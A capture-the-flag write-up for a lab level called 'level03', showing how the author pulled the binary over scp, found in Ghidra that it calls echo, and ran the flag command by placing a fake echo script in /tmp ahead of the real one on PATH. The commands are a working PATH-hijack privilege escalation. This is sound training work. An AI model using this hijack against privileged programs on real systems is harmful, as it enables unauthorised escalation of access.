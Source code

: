 # Level03 Write-up

## Objective:

The goal of this level was to analyze an executable file and manipulate its behavior to retrieve the flag.

## Step-by-step process:

### Step 1: Retrieving the Executable

I started by using `scp` to securely transfer the `level03` executable from the remote system to my local machine for analysis:

```bash
scp -P 2222 level03@localhost:level03 level03
```

### Step 2: Analyzing the Executable with Ghidra

Next, I loaded the `level03` executable into _Ghidra_ for disassembly and analysis. Through this process, I discovered that the program calls the `echo` command.

### Step 3: Exploiting the `echo` Call

Since the program relies on the system's `echo` command, I decided to manipulate the `PATH` environment variable to make it use a custom script instead of the default `echo` command.

To do this, I created a fake `echo` script in the `/tmp` directory by running the following in a text editor:

```bash
vim /tmp/echo
```

In the editor, I inserted the following shell script to replace the `echo` functionality with the `getflag` command:

```bash
#!/bin/sh
getflag
```

Then, I made the script executable:

```bash
chmod +x /tmp/echo
```

### Step 4: Changing the `PATH` Variable

After creating the fake `echo` script, I modified the `PATH` variable so that the program would use the `/tmp` directory first when calling `echo`:

```bash
export PATH="/tmp:$PATH"
```

### Step 5: Running the Program

Finally, I executed the `level03` program:

```bash
./level03
```
